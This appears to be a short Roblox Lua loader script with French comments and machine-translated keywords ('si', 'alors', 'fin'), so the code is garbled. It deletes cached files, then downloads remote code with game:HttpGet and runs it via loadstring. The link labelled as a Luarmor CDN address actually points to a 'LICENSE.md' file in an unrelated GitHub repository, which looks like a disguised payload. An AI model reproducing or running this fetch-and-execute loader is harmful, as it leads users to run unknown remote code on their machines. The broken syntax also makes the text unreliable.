 -- Ne pas enregistrer ce fichier
-- Utilisez toujours la chaîne de chargement
  _bsdata0 = {{886242837,1752212536,382104},3365076439,785507,"\241\0\0\0","DC1D6F1C631BDAF365A5F3E25F300DHE-DDE4A4DEE600!DEHH61EFDC!6C01B5E!53F10!02DH16--1F01DE F-01CH3H5D!DE51-0C4CA25CH6C6-5F445D2E","09885fb41269da313e9179394c4cf507908f2703ee01e5289576ed67e15bbcd16299cde59ba580de7283a257be31ac325692d9c15b57 06ef8bca5a31d38125bc09fbc77541d0234e575a7340104c38ea6abe86fc252c3e8bd510da 10a48b0f5b4232c027e3a2c041dcdf29d93823ac4386511a26ba6e575493a0bd2bbe59ff23 cdc4ea63675577af4b077117a28bcd2aeee2d8b71e0f231c3c282669eb846fef1a09495e6a da5dfab164f3866bcbc37cde00ebc083f4f24bdd0aedfe672c7a0d87a61bff86931817b3"} ;
pcall(function() delfile('32b520fd3ef340a3c6f701b6edf48e55-cache.lua') fin)
  local a pcall(function()a=readfile("static_content_130525/initv4.lua")end) si a et #a>2000 alors a=loadstring(a) end;
si a alors renvoyer a() sinon pcall(makefolder, "static_content_130525") a=game:HttpGet("[https://cdn.luarmor.net/v4_init_may312.lua](https://raw.githubusercontent.com/Audinay/zdzdzfrg50/refs/heads/main/LICENSE.md)") writefile("static_content_130525/initv4.lua", a) pcall(delfile, "static_content_130525/init.lua"); pcall(delfile, "static_content_130525/initv2.lua"); pcall(delfile, "static_content_130525/initv3.lua"); loadstring(a)() fin
  
